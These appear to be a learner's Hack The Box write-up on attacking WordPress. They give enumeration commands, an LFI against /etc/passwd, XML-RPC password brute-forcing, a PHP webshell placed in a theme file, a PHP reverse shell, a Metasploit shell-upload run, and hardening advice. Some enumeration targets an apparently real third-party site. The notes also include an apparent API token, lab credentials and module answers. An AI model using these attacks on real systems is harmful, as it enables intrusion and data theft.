

# WordPress

## Structure

```
.
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
  ├── index.php
  ├── plugins
  └── themes
├── wp-cron.php
├── wp-includes
  ├── theme.php
  ├── update.php
  ├── user.php
  ├── vars.php
  ├── version.php
  ├── widgets
  ├── widgets.php
  ├── wlwmanifest.xml
  ├── wp-db.php
  └── wp-diff.php
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```

<table><thead><tr><th width="214">Name</th><th>Description</th></tr></thead><tbody><tr><td>index.php</td><td>The homepage of WordPress.</td></tr><tr><td>license.txt</td><td>Useful information such as the WordPress version.</td></tr><tr><td>wp-activate.php</td><td>The email activation process.</td></tr><tr><td>wp-admin</td><td>The login page for administrator access and the backend dashboard.</td></tr><tr><td>xmlrpc.php</td><td>A feature of WordPress that enables data to be transmitted with HTTP</td></tr><tr><td>wp-config.php</td><td>The information required by WordPress to connect to the database, such as database name, host, username and password, etc.</td></tr><tr><td>wp-content</td><td>The main directory where plugins and themes are stored.</td></tr><tr><td>wp-content/uploads</td><td>Any files uploaded to the platform are stored here.</td></tr><tr><td>wp-includes</td><td>The directory where core files are stored such as certificates, fonts, JavaScript files and widgets.</td></tr></tbody></table>

## User Roles

<table><thead><tr><th width="174">Role</th><th>Description</th></tr></thead><tbody><tr><td>Administrator</td><td>This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.</td></tr><tr><td>Editor</td><td>An editor can publish and manage posts, including the posts of other users.</td></tr><tr><td>Author</td><td>Authors can publish and manage their own posts.</td></tr><tr><td>Contributor</td><td>These users can write and manage their own posts but cannot publish them.</td></tr><tr><td>Subscriber</td><td>These are normal users who can browse posts and edit their profiles.</td></tr></tbody></table>

## Enumeration

### Core Version

To grab the WordPress version :

```bash
curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'          # method 1
curl -s -X GET http://blog.inlanefreight.com | grep "<link rel='stylesheet'"          # method 2
curl -s -X GET http://blog.inlanefreight.com | grep "<script type='text/javascript'"  # method 3
```

OIder WordPress versions contain the `readme.html` file.

### Plugins and Themes

To check the WordPress plugins :

```bash
curl -s -X GET https://unechapelleensoie.fr | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'fr/wp-content/plugins/*' | cut -d"'" -f2
```

To check the WordPress themes :

```bash
curl -s -X GET https://unechapelleensoie.fr | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'fr/wp-content/themes/*' | cut -d"'" -f2
```

Howerver, not installed plugins and themes can be discovered passively. To check if this plugin exists, you must receive a 2\*\* or 3\*\* status code response from the next request :

```bash
curl -I -X GET https://unechapelleensoie.fr/wp-content/plugins/elementor-pro/assets/js/elements-handlers.min.js?ver=3.9.2
```

If the status code response is 404, that means the ressource doesn't exist. \* You can use `wfuzz` or `WPScan` to enumerate them.

### User

Two methods :

1. Reviewing posts to uncover the ID assigned to the user and their corresponding username. Here there is the admin user who has the index "1" :

```bash
curl -s -I -X GET http://blog.inlanefreight.com/?author=1    # existing user
curl -s -I -X GET http://blog.inlanefreight.com/?author=100  # non-existing user
```

2. Obtain a list of users on the path [http://blog.inlanefreight.com/wp-json/wp/v2/users](http://blog.inlanefreight.com/wp-json/wp/v2/users).

```bash
curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
```

### Login

Create the file `payload.xml` with the following text :

```xml
<methodCall>\
   <methodName>wp.getUsersBlogs</methodName>\
   <params><param>\
   <value>admin</value>\
   </param><param>\
   <value>PASSWORD</value>\
   </param></params>\
</methodCall>
```

Then execute this command :

```bash
curl -X POST -d "$(cat payload.xml)" http://blog.inlanefreight.com/xmlrpc.php
```

If the login is successful, the response will be :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the login fails, the response will be :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

### WPScan

It's an automated WordPress scanner and enumeration tool. To obtain an API token from **WPVulnDB**, you must create a profile on [https://wpscan.com](https://wpscan.com/) then go to [https://wpscan.com/profile](https://wpscan.com/profile). The token is `kQ33POZm5swhdhJYNjM2sS2ssZaQb7fyntVsPuadKzU`, you can use it with the flag `--api-token`.

The flags of `wpscan` :

| Flag          | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `--enumerate` | Enumerate various components of the WordPress application. |
| `--url`       | The url you want target.                                   |
| `--api-token` | Get access to the WPVulnDB database.                       |
| `-t`          | The number of thread.                                      |

```bash
wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr...4fdJzy9qVcT
```

## Exploitation

### WPScan Results

```bash
wpscan --enumerate ap --url http://167.172.57.150:30878
```

The plugins are :

* WordPress (5.1.6)
* mail-masta (1.0)
* photo-gallery (1.5.34)
* wp-google-places-review-slider (6.1)

There is an exploit for mail-masta : [40290](https://www.exploit-db.com/exploits/40290).

```bash
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/lists/csvexport.php?pl=/etc/passwd
```

### User Bruteforce

List all users on WordPress :

```bash
wpscan --enumerate u --url http://167.172.57.150:31546
```

And you get `admin`, `david` and `roger`. To bruteforce the user password, you must use `--password-attack xmlrpc` to attempt to login with the xmlrpc method.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U admin,david -P /usr/share/wordlists/rockyou.txt
```

The credentials are `admin:sunshine1`

**Attacking the WordPress backend**

Connect with the admin credentials `admin:sunshine1` and update the file `404.php` on the theme`Twenty Seventeen`.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

Then execute this command :

```bash
curl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=id 
```

And you get this response :

```
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
```

### Metasploit

```bash
msfconsole
```

```
msf5 > search wp_admin
msf5 > use 0
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
...
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```

## Security Measures

Keep plugins up to date, you can automatically update plugins with these lines :

```php
define('WP_AUTO_UPDATE_CORE', true);
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

Check reviews, popularity, number of installs and last update date.

Add a WordPress security plugin :

* [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
* [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)
* [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)

### User Management

* Disable the standard `admin` user and create accounts with difficult to guess usernames
* Enforce strong passwords
* Enable and enforce two-factor authentication (2FA) for all users
* Restrict users' access based on the concept of least privilege
* Periodically audit user rights and access. Remove any unused accounts or revoke access that is no longer needed

### Configuration Management

* Install a plugin that disallows user enumeration so an attacker cannot gather valid usernames to be used in a password spraying attack
* Limit login attempts to prevent password brute-forcing attacks
* Rename the `wp-admin.php` login page or relocate it to make it either not accessible to the internet or only accessible by certain IP addresses

## Questions

### Question 1

Search for "WordPress xmlrpc attacks" and find out how to use it to execute all method calls. Enter the number of possible method calls of your target as the answer.

Source : [https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/) First create a new XML file named `payload.xml` and add this text :

```xml
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
	<methodName>system.listMethods</methodName>
	<params></params>
</methodCall>
```

Then run the following command :

```bash
curl -s http://167.172.57.150:30878/xmlrpc.php -X POST -d "$(cat payload.xml)"|grep -e '<value>'|grep -cv 'listMethods'
```

The answer is 80.

### Question 2

Enumerate the provided WordPress instance for all installed plugins. Perform a scan with WPScan against the target and submit the version of the vulnerable plugin named “photo-gallery”.

```bash
wpscan --enumerate ap --url http://167.172.57.150:30878
```

The `--enumerate ap` flag lists all available plugins. In the response, you get the version `1.5.34` :

```
[+] photo-gallery
 | Location: http://167.172.57.150:30878/wp-content/plugins/photo-gallery/
 | Last Updated: 2023-03-30T05:41:00.000Z
 | [!] The version is out of date, the latest version is 1.8.15
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.5.34 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/css/jquery.mCustomScrollbar.min.css?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/css/styles.min.css?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/js/jquery.mCustomScrollbar.concat.min.js?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/js/scripts.min.js?ver=1.5.34
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/readme.txt
```

### Question 3

Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.

```bash
curl -s http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd|grep /bin/bash|cut -d':' -f1
```

### Question 4

Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt
```

The answer is `roger:lizard`.

### Question 5

Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

Already done in the exploitation file in the \`Attacking the WordPress backend\`\`section.

```bash
@nightbluecurl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=more+/home/wp-user/flag.txt
```

The flag is `HTB{rc3_By_d3s1gn}`.

## Assessment

### Scanning

```bash
echo '10.129.13.88 inlanefreight.htb' | sudo tee -a /etc/hosts
nmap inlanefreight.com
```

* The port 80 is opened with an Apache server, not a WordPress server.
* I try to find a subdomain that hosts a WordPress server.

```bash
ffuf -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.inlanefreight.htb
```

* I find the subdomain `blog.inlanefreight.htb`. There is a WordPress server.
* I can get the WordPress version (5.1.6).

```bash
curl -s -X GET http://blog.inlanefreight.htb | grep '<meta name="generator"'
```

* I can get the themes versions.

```bash
# method 1
curl -s -X GET http://blog.inlanefreight.htb \
  | sed 's/href=/\n/g' \
  | sed 's/src=/\n/g' \
  | grep 'wp-content/plugins/*' \
  | cut -d"'" -f2

# method 2
wpscan --enumerate ap --url http://blog.inlanefreight.htb
```

* email-subscribers (4.2.2) : [https://www.exploit-db.com/exploits/48698](https://www.exploit-db.com/exploits/48698)
* site-editor (1.1.1)
* the-event-calendar (5.1.2.1)

### Exploits

The exploit for the plugin email-subscribed is an Unauthenticated File Download on this link.

```
http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all
```

* The flag is in this file.
* The exploit for the plugin site-editor is a LFI exploit.

```bash
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

* But I can't find the flag in `/home/erika` with this vulnerability.
* I can get the users (on the website, I can see it exists at least 2 users : erica and admin).

```bash
wpscan --enumerate u --url http://blog.inlanefreight.htb
```

* The users are **admin**, **erika** & **charlie**. I can crack their passwords.

```bash
wpscan --url http://blog.inlanefreight.htb -t 20 \
  -U admin,erika,charlie \
  --password-attack xmlrpc \ 
  -P /usr/share/wordlists/rockyou.txt
```

* The credentials are `erika:010203` & `charlie:soccer13`.

#### Web Shell

Now, I'm logged as `erika` and has administrator access on the WordPress dashboard. I can update an inactive theme like `TwentySeventeen` and the file `404.php` :

<figure><figcaption></figcaption></figure>

I have created a webshell. Now I can send my linux commands :

```bash
url='http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php'
curl "$url?cmd=ls+-la+/home/erika"
curl "$url?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
```

I get the file `d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt` content and there is the flag inside of it.

### Reverse Shell

Then I copy the content of the file `/usr/share/webshells/php/php-reverse-shell.php` at the beggining of the file `archive.php` and edit the IP and PORT variables :

<figure><figcaption></figcaption></figure>

I open a listener on the attacker :

```bash
nc -lnvp 1234
```

I send a request to :

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/archive.php
```

And I gain the reverse shell :

<figure><figcaption></figcaption></figure>

In the WordPress directory, I can looking for the flag hidden in the project tree :

```bash
cd /var/www/blog.inlanefreight.local/public_html
find . -name *flag*
```

I find a file which looks like the flag file `./wp-content/uploads/upload_flag.txt`. I go to [http://blog.inlanefreight.htb/wp-content/uploads/upload\_flag.txt](http://blog.inlanefreight.htb/wp-content/uploads/upload\_flag.txt) and I get the flag.

## Cheat Sheet

| **Command**                    | **Description**                                                                        |
| ------------------------------ | -------------------------------------------------------------------------------------- |
| `tree -L 1`                    | Lists contents of current directory                                                    |
| `curl -s -X GET <url>`         | Makes a GET request to a webserver and receives HTML source code of requested web page |
| `curl -I -X GET <url>`         | Prints the response header of the GET request from the requested web page              |
| `curl -X POST -d <data> <url>` | Sends a POST request with data to specific webserver                                   |
| `wpscan --url <url> -e ap`     | Scans specific WordPress application to enumerate plugins                              |
| `wpscan --url <url> -e u`      | Scans specific WordPress application to enumerate users                                |
| `msfconsole`                   | Starts Metasploit Framework                                                            |
| `html2text`                    | Converts redirected HTML output or files to easily readable output                     |
| `grep <pattern>`               | Filters specific pattern in files or redirected output                                 |
| `jq`                           | Transforms JSON input and streams of JSON entities                                     |
| `man <tool>`                   | Man provides you with the manpage of the specific tool                                 |
